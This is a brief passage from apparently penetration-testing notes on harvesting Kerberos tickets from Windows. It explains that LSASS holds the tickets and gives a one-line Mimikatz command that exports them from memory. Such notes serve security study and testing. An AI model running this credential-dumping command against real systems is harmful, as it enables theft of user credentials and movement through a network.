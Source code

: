 
- On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. 
- Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

## Harvesting Kerberos Tickets from Windows

### Mimikatz - Export Tickets

```powershell
.\mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```
